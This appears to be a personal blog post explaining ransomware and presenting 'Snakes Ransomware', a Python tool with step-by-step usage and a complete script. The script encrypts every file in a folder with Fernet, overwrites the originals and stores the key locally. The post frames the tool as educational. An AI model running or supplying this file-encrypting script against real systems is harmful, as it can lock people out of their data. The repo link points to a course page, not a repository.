 ```yaml
---
title: "Understanding Ransomware and a Dive into Snakes Ransomware"
meta_title: ""
description: "Ransomware"
date: 2022-05-16T05:00:00Z
image: "/images/snakes-ransomware.png"
categories: ["Project","Ransomware", "Python"]
author: "Krishna Chaitanya Ethamukkala"
tags: ["snakes ransomware", "ransomware"]
draft: false
---
```

## What is Ransomware?

Ransomware is a type of malicious software designed to block access to a computer system or encrypt its data until a sum of money, or ransom, is paid. It’s a form of cyber extortion that has become increasingly prevalent, targeting individuals, businesses, and even government organizations. Once infected, victims are often left with a grim choice: pay the ransom to regain access to their files or risk losing them forever.

### How Ransomware Works

Ransomware typically spreads through phishing emails, malicious websites, or software vulnerabilities. When the malware is executed, it begins encrypting files on the victim's system, rendering them inaccessible. A ransom note is then displayed, demanding payment in exchange for the decryption key.

The use of ransomware has evolved over the years, with cybercriminals employing more sophisticated techniques to avoid detection and increase their chances of receiving payment. Unfortunately, even after paying the ransom, there’s no guarantee that the files will be restored.

## Introduction to Snakes Ransomware

Snakes Ransomware is a Python-based tool I’ve developed to demonstrate the encryption and decryption processes involved in ransomware. While this project is intended purely for educational purposes, it highlights the mechanics of ransomware in a controlled environment.

### Features of Snakes Ransomware

- **File Encryption:** Encrypts all files in a specified folder.
- **Key Generation:** Creates a unique key for each encryption process, which is crucial for decryption.
- **File Decryption:** Provides a way to decrypt the previously encrypted files using the generated key.

## How to Use Snakes Ransomware

### Step 1: Installation

First, ensure you have all the required dependencies installed. You can do this by running the following command in your terminal:

```bash
pip install -r requirements.txt
```

### Step 2: Encryption Process

To encrypt files within a target folder:

1. **Copy the Encryption Script:**
   - Place the `snakes-encrypt.py` file into the folder you want to encrypt.

2. **Execute the Script:**
   - Open a terminal and navigate to the folder containing the script.
   - Run the following command:
   
     ```bash
     python snakes-encrypt.py
     ```

3. **Encryption Completion:**
   - After execution, all files in the folder will be encrypted, and a key file named `snakes-key.key` will be generated. This key is essential for decrypting the files.

### Step 3: Decryption Process

To decrypt the files:

1. **Copy the Decryption Script:**
   - Place the `snakes-decrypt.py` file in the folder containing the encrypted files.

2. **Add the Encryption Key:**
   - Ensure the `snakes-key.key` file is in the same directory as the decryption script.

3. **Execute the Decryption Script:**
   - Run the following command in your terminal:
   
     ```bash
     python snakes-decrypt.py
     ```

4. **Decryption Completion:**
   - The encrypted files will be restored to their original state.

## How Snakes Ransomware Was Created

Creating Snakes Ransomware involved a deep dive into cryptography and file handling in Python. The key aspects of the program include:


### **Encryption Script Explanation**

This script is designed to encrypt all files in the current directory, except for the encryption script itself and the key file.

#### **1. Importing Necessary Libraries:**
```python
import os
from cryptography.fernet import Fernet
```
- `os`: Used to interact with the operating system for file operations.
- `cryptography.fernet`: A symmetric encryption method from the `cryptography` library, which is used to encrypt and decrypt files.

#### **2. Listing Files to Encrypt:**
```python
files = []

for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print(files)
```
- The script lists all files in the current directory.
- It excludes the encryption script (`snakes-encrypt.py`) and the key file (`snakes-key.key`) to prevent them from being encrypted.

#### **3. Generating the Encryption Key:**
```python
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)
```
- A new encryption key is generated using `Fernet.generate_key()`.
- This key is saved in a file called `snakes-key.key`. This key is essential for decrypting the files later.

#### **4. Encrypting the Files:**
```python
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)
```
- The script loops through each file in the `files` list.
- It reads the contents of each file in binary mode (`"rb"`).
- The contents are encrypted using the generated key.
- The encrypted contents are then written back to the original file in binary mode (`"wb"`), replacing the original contents with the encrypted data.

### **Complete Encryption Script**

Here's the complete encryption script with comments for clarity:

```python
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# List of files to be encrypted
files = []

# Identify files to encrypt, excluding the script and key files
for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print("Files to be encrypted:", files)

# Generate encryption key and save it to a file
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)

# Encrypt each file
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print("Encryption completed.")
```


## Conclusion

Ransomware remains one of the most significant threats in cybersecurity today. By understanding how it works through projects like Snakes Ransomware, we can better prepare ourselves to defend against such attacks. Remember, the Snakes Ransomware project is strictly for educational purposes, and I strongly discourage any malicious use of this knowledge.

For more insights into cybersecurity and programming, stay tuned to Krishna-Blogs!

---
[Github Repo](https://cs50.harvard.edu/python/2024/) -- For referance

Contact: ekrishnachaitanya2004@gmail.com 'or'
        snakesnnetworks@gmail.com
